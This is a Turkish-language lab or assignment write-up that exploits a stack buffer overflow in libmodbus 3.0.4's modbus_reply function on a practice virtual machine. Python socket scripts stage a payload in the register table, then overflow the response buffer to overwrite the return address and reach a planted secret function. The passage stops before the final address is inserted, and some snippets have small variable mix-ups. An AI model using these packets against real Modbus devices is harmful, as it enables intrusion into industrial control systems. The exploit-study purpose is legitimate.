# libmodbus-3.0.4_writeup

ABD'de master okuyan yabancı bir arkadaşım yardım etmem için ve aynı zamanda ilgimi çekeceğini düşündüğü bana gönderdiği assignmenta bu yazıda beraber bakacağız. 

Assignment:


Libmodbus v3.0.4 overflow açığı barındırmaktadır. Açık modbus.c dosyasında modbus_reply fonksiyonunda ortaya çıkıyor. Bir sanal makinede bu versiyon derlendi ve kuruldu. Bu kütüphane ile beraber gelen test programları var: unit-test-server ve unit-test-client. unit-test-server kaynak kodlarına gizli bir fonksiyon yerleştirildi. Açığı kullarak bu fonksiyona atlamak gerekir.


Libmodbus açık kaynak kodlu bir kütüphane. Modbus protokolüne uygun bir şekilde data alıp gönderir. Detaylı bilgi için: [libmodbus](https://libmodbus.org/documentation/)

Bize verilen sanal makineyi indirip VirtualBox veya VMware ile açalım:

link: [Virtual Machine](https://drive.google.com/open?id=1NNNN2OEsz05R_c4WjcMIor-vIqeUhJo1)

```
user: ubuntu
pass: 123456
directory: ~/Desktop/modbus/tests/.libs
```



Resimde de görüldüğü gibi ~/Desktop/modbus/tests/unit-test-server.c dosyasında *secret_function* tanımlanmış. Bizden istenen şey unit-test-server çalıştırıp uzak makineden bu gizli fonksiyonu çağırmak.

Açığa bi göz atalım. Bunun için Google'dan araştırma yapılabilir, fakat biz gezdirelim:

 
~/Desktop/modbus/src/modbus.c dosyasına bakarken şu part gözümüze çarpması lazım:

```c

int modbus_reply(modbus_t *ctx, const uint8_t *req,
                 int req_length, modbus_mapping_t *mb_mapping)
{
    int offset = ctx->backend->header_length;
    int slave = req[offset - 1];
    int function = req[offset];
    uint16_t address = (req[offset + 1] << 8) + req[offset + 2];
    uint8_t rsp[MAX_MESSAGE_LENGTH];								--> [1]

    ...
    switch (function) {
    ...

    case _FC_READ_HOLDING_REGISTERS: {
        int nb = (req[offset + 3] << 8) + req[offset + 4];					--> [2]

        if ((address + nb) > mb_mapping->nb_registers) {					--> [3]
            if (ctx->debug) {
                fprintf(stderr, "Illegal data address %0X in read_registers\n",
                        address + nb);
            }
            rsp_length = response_exception(
                ctx, &sft,
                MODBUS_EXCEPTION_ILLEGAL_DATA_ADDRESS, rsp);
        } else {
            int i;

            rsp_length = ctx->backend->build_response_basis(&sft, rsp);
            rsp[rsp_length++] = nb << 1;
            for (i = address; i < address + nb; i++) {						--> [4]
                rsp[rsp_length++] = mb_mapping->tab_registers[i] >> 8;
                rsp[rsp_length++] = mb_mapping->tab_registers[i] & 0xFF;
            }
        }
    }

    ...  
 
```

Yukarda kod parçasında açığı açıkca farkedebilirisiniz. *rsp* değişkeni *MAX_MESSAGE_LENGTH* kadar yer açıyor. Bunu küçük bir komut ile bulabiliriz:

```bash
ubuntu@ubuntu-VirtualBox:~/Desktop/modbus/src$ grep -r "#define MAX_MESSAGE_LENGTH" .
./modbus.c:#define MAX_MESSAGE_LENGTH 260
```

Limit olarak 260 verilmiş. User olarak bu fonksiyona parametre olarak gelen *req* ve *req_length* değerlerini kontrol ediyoruz. Dolayısı ile *function* ve *address* değerleri de aynı zamanda bizim kontrolümüzde. Bizim 4. bölümde ki for döngüsünde OOB write yapmamız için 3. yerdeki if şartını geçmemiz lazım. Güzel olan şey 2. yerde görüldüğü gibi *nb* değerini biz kontrol ediyoruz. Bizim önce *mb_mapping->registers* değerine bakmamız lazım. Ki bu *mb_mapping* değeri bizim için çok önemli çünkü OBB Write yaparken ordan okuyoruz. unit-test-server.c dosyasından tanımlamaya bakalım:

```c

int main(int argc, char*argv[])
{
    int socket;
    modbus_t *ctx;
    modbus_mapping_t *mb_mapping;
    int rc;
    int i;

    ...

    mb_mapping = modbus_mapping_new(1000, 1000, 1000, 1000); // Add suitable number of registers and coils

    ...

    for (;;) {
        rc = modbus_receive(ctx, query);
        if (rc == -1) {
            /* Connection closed by the client or error */
            break;
        }

        /* Read holding registers */
        if (query[header_length] == 0x03) {
            if (MODBUS_GET_INT16_FROM_INT8(query, header_length + 3)
                == UT_REGISTERS_NB_SPECIAL) {
                printf("Set an incorrect number of values\n");
                MODBUS_SET_INT16_TO_INT8(query, header_length + 3,
                                         UT_REGISTERS_NB_SPECIAL - 1);
            } else if (MODBUS_GET_INT16_FROM_INT8(query, header_length + 1)
                == UT_REGISTERS_ADDRESS_SPECIAL) {
                printf("Reply to this special register address by an exception\n");
                modbus_reply_exception(ctx, query,
                                       MODBUS_EXCEPTION_SLAVE_OR_SERVER_BUSY);
                continue;
            }
        }

        rc = modbus_reply(ctx, query, rc, mb_mapping);					--> [1]
        if (rc == -1) {
            break;
        }
    }
 
    ...
```

Kod parçasında açıkça belirtilmiş herşey. *mb_mapping* yeni harita oluştururken yer olarak 1000 açıyor ve bu değişkeni 1. kısımda modbus_reply fonksiyonuna aktarıyor. Bu sayede üstteki if şartını geçmemiz için bizim 1000 sayısından daha düşük değer vermemiz lazım

```c
if ((address + nb) > mb_mapping->nb_registers)
```

Aynı zamanda bizim overflow etmemiz için *nb* değerini 260 değerini aşmamız lazım. 

```c

for (i = address; i < address + nb; i++) {
	rsp[rsp_length++] = mb_mapping->tab_registers[i] >> 8;
	rsp[rsp_length++] = mb_mapping->tab_registers[i] & 0xFF;
}
```
*address* değişkeni başlangıç ve *nb* döngü sonu. Dikkat edilmesi gereken husus ise bir adet *nb* değerine karşılık 2 byte yazıyor. Bu yüzden limiti aşmamız için *nb* değerini 130'dan yüksek tutmamız yeterli olacaktır. 


Overflow işlemini tamamladığımıza göre payloadumuzu *mb_mapping* haritasına atmamız lazım. Yukarda ki kod parçasında görüldüğü üzere sonsuz for döngüsü var *rc* -1 olana kadar devam ediyor. Biz bu açığı takrar tekrar tetikleyebiliriz. modbus_reply fonksiyonuna biraz daha göz atalım:

```c
    ...
    case _FC_WRITE_MULTIPLE_REGISTERS: {
        int nb = (req[offset + 3] << 8) + req[offset + 4];

        if ((address + nb) > mb_mapping->nb_registers) {
            if (ctx->debug) {
                fprintf(stderr, "Illegal data address %0X in write_registers\n",
                        address + nb);
            }
            rsp_length = response_exception(
                ctx, &sft,
                MODBUS_EXCEPTION_ILLEGAL_DATA_ADDRESS, rsp);
        } else {
            int i, j;
            for (i = address, j = 6; i < address + nb; i++, j += 2) {
                /* 6 and 7 = first value */
                mb_mapping->tab_registers[i] =						--> [1]
                    (req[offset + j] << 8) + req[offset + j + 1];
            }

            rsp_length = ctx->backend->build_response_basis(&sft, rsp);
            /* 4 to copy the address (2) and the no. of registers */
            memcpy(rsp + rsp_length, req + rsp_length, 4);
            rsp_length += 4;
        }
    }
    ...
```

Kod parçasında görüldüğü gibi 1. kısımda görüldüğü gibi kontrolümüzde olan *req* deeğişkeninden değer alıp tam da istediğimiz yere yazıyor. Yazma ve okumada bitwise işlem yapıyor:

örnek olarak *mb_mapping->tab_registers[0]* kısmına yazalım:

*req*, "AAAAAAAAAAAAAAAAA" olsun ve *offset* ise 0 olsun bu durumda ilk olarak *req[offset + j]* değeri alınacak 0x41 shift operationundan sonra 0x4100 olur. *req[offset + j + 1]* değerini de eklersek 0x4141 olur ve bu haritanın ilk elemanında yüklenir. Okuma kısmında ise *mb_mapping->tab_registers[i] >> 8*,  0x4141 değeri 0x41 olur. İkinci kısımda ise *mb_mapping->tab_registers[i] & 0xFF*, and operationdan sonra 0x4141 değeri 0x41 olur. Yani her iki durum bize sıkıntı çıkarmaz. 

Bu kod parçasında göze çarpan şey ise 2 byte bir yere yazılıyor. 260 byte yazdırmak için bizim 520 byte vermemiz lazım. Bu şekilde paylodumuz başarılı bir şekilde yüklenmiş olacak.

```
NOT:

Dikkat edilmesi gerek bir yer var o da address değerinin yazma ve okuma kısmında da aynı olması gerekir. 
Bu şekilde payloda yazıp payloadın başından okumaya başlayacağız.

```

Biz *rsp* değerinden daha fazla yazdıralım yani şöyle bi 300 falan yazalım. Bu da 600'a denk gelir ve *nb* değerini ise 150 olarak tutalım. Bu şekilde stack'i overflow edebiliriz. Return adresini stack'te overwrite etmiş olacağız. 

Modbus protokolünü öğrenip paketi nasıl hazırlayacağımızı bulabiliriz, fakat bunun daha kolay bir yolu var o da unit-test-client.c dosyasında istediğimiz parametleri girip nasıl olacağını bulabiliriz:

```c
    rc = modbus_write_registers(ctx, UT_REGISTERS_ADDRESS,
                                MODBUS_MAX_WRITE_REGISTERS + 1,
                                tab_rp_registers);
    printf("* modbus_write_registers: ");
    if (rc == -1 && errno == EMBMDATA) {
        printf("OK\n");
    } else {
        printf("FAILED\n");
        goto close;
    }
```

Bu kod parçası client kodundan alındı. Burda parametreleri girebiliyoruz.

```c
        if (ctx->debug) {
            int i;
            for (i=0; i < rc; i++)
                printf("<%.2X>", msg[msg_length + i]);
        }
```

Bu kod parçası ise *modbus_receive* fonksiyonu ile çağrılan *receive_msg* fonksiyonunda alındı. Yani debug bayrağını açarasak gelen paketi byte byte yazacak. Bu şekilde write/read yapıp paket şeklini python scriptine yazıp doğrudan çağırabiliriz. Burda ki küçük sıkıntı *modbus_write_registers* fonksiyonunda maximum değeri aşarsa hata veriyor. Dileyen orayı silip derleyebilir dileyen ise daha düşük bir değer girip ona göre offseti bulabilir. Address kısmına dokunmamıza gerek yok aynı olması yeterli. 

```
NOT: debug default olarak açık
```

```c
    rc = modbus_write_registers(ctx, UT_REGISTERS_ADDRESS,
                                UT_REGISTERS_NB, UT_REGISTERS_TAB);	--> UT_REGISTERS_NB değerini 
    printf("1/5 modbus_write_registers: ");				--> 120 olarak değiştirelim 
    if (rc == UT_REGISTERS_NB) {					--> hexadecimal olarak 0x78 olmalı. 
        printf("OK\n");
    } else {
        printf("FAILED\n");
        goto close;
    }
```

Çalıştırıp bakalım:



Resimde görüldüğü gibi 0x78 sonda gözüküyor. Bu şekilde kendi paketimizi yapabiliriz. Print kısmında yok ama devamında verdiğimiz karakterler olacak. 

```
<00><08><00><00><00><06><FF><10><00><6B><00><78>
```

Bu şekilde alıp paketimizi düzenleyebiliriz:

NOT: 600 hexadecimal olarak 0x258'e denk geliyor. Onu 2 part şeklinde yazabiliriz. 0x02, 0x58

```python
import socket

HOST = '127.0.0.1'
PORT = 1502

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

header = "\x00\x08\x00\x00\x00\x06\xff\x10\x00\x6b\x02\x58"

packet = "\x41"*600

m = header+packet

s.send(m)
```

Bu paketi çalıştırıp bakınca önümüze gelen tabloya bakalım:





Burda açıkça görülüyorki yukarda ki printf kod parçasından receivce edilen kısım bastırılıyordu ve elimizde sadece 66 tane A harfi var. Bu bizim için sıkıntı değil, çünkü istediğimiz kadar açığı tetikleyebiliriz. O yüzden 66şar paketler şeklinde gönderelim. Tek değişecek olan şey *address* değeri.


```python
header1 = "\x00\x08\x00\x00\x00\x06\xff\x10\x00\x6b\x00\x42" # address = 0x006b, nb = 0x0042
packet1 = "\x41"*66*2 # --> bir nb için 2 byte

header2 = "\x00\x08\x00\x00\x00\x06\xff\x10\x00\xad\x00\x42" # address = 0x00ad(6b+42), nb = 0x0042
packet2 = "\x42"*66*2

header2 = "\x00\x08\x00\x00\x00\x06\xff\x10\x00\xef\x00\x42" # address = 0x00ef(ad+42), nb = 0x0042
packet2 = "\x43"*66*2

s.send(header1 + packet1)
s.send(header2 + packet2)
s.send(header3 + packet3)
```

Bu şekilde çalıştırıp bakarsak:




Sıkıntı var! Bir paket eksik kalmış. Bu yüzden gerisi kaymış. O yuzden hepsine 6 padding ekleyelim:

```python
packet = "\x41"*66*2 + 6* "\x41"
```

Hepsine ekleyip çalıştıralım:




Tamam "B" kısmı tamam ama "C" kısmında hata var ona 1 daha eklememiz lazım:



Hepsi tamam. Bu şekilde payloadımız memoryde saklanıyor. Şimdi sıra READ case ile onu stack'e yazdırma işleminde. Onu sequence dizlimini de benzer şekilde buluyoruz:

```
<00><07><00><00><00><05><FF><03><01><12><34><0A>
```

Burda *address* 0x0112 ve *nb* ise 0x340A oluyor. Bunu şu şekilde değiştirmeliyiz:

```python
address = 0x006b
nb = 0x012c
```

Bu şekilde read olacağı için yeniden çalıştıralım ve aynı zamanda debug edelim:

NOT: C'ye bir padding eklemeliyiz. Sırasıyla 6, 7 ve 8 olacak paddingler






Bu şekilde çalıştırdığımızda *send_msg* fonksiyonunda hata aldık. Bu fonksiyon *modbus_reply* fonksiyonunun sonunda geçiyor. Demek ki stack yerle bir olduğu için EAX'a atması gereken değer yerine 0x43434343 değerini stackten almış. Haliyle EAX+0x20 adresinin içinde ki değere erişemiyor. Bu fonksiyona atlamadan önce EAX'a attığı değere bakalım:



Kalığımız yerde line 912'ye breakpoint koyup tekrar çalıştıralım:



ESP+0x160'tan EAX'a değer atıyor. İlk 3 seferde bişey olmuyor çünkü bu yere 4 defa gelmesi lazım. En son seferinde bu değeri overwrite ettiğimiz için sıkıntı çıkıyor. Overwrite olmadan önce içinde ki değere bi bakalım:





Bu adresten hemen önce main'e return adresi var. Güzel olan şey ise bizim adresimiz sabit bir adres. *0x0804c008* bu adresi C yerine girebiliriz ve hemen öncesine ise gizli fonksiyon adresi gireriz. Pattern hesaplamak için line 720'ye breakpoint koyalım. Buraya sadece en sonunda geliyoruz ve overwrite işlemi for döngüsü başlıyor:





return adresinden önce 15 tane c var o zaman paylodu şu şekil değiştirelim:

```
önceki hali:
packet3 = "\x43"*66*2 + "\x43"*8

yeni hali:
packet3 = "\x43"*15 + "\xef\xbe\xad\xde" + "\x08\xc0\x04\x08" + "\x43" * (66*2 - 15 - 8) + "\x43"*8
```

Bu sefer çalıştıralım:



İlk C karakterinin başına bir olay geliyor o yüzden bizim 16 girmemiz lazım:

```
yeni hali:
packet3 = "\x43"*16 + "\xef\xbe\xad\xde" + "\x08\xc0\x04\x08" + "\x43" * (66*2 - 16 - 8) + "\x43"*8
```



Ve işte sihirli cümle karşımızda: "Invalid $PC address: 0xdeadbeff"

Tek yapmamız gereken fotoda bulduğumuz secret_function adresi girmek. Yerleştirip çalıştıralım:

